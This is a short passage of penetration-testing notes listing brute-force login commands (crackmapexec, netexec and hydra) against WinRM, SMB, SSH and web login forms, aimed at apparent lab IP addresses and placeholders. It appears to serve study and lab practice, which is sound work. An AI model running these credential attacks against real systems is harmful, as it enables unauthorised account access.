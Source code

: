 
- check [services footprinting](https://github.com/kiro6/penetration-testing-notes/blob/main/Penetration%20Testing/Footprinting/Services.md)

```bash
crackmapexec winrm 10.129.42.197 -u user.list -p password.list

## this is better
netexec smb 10.129.202.85 -u user.list -p password.list 

hydra -L user.list -P password.list ssh://10.129.42.197

hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form  "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /
```
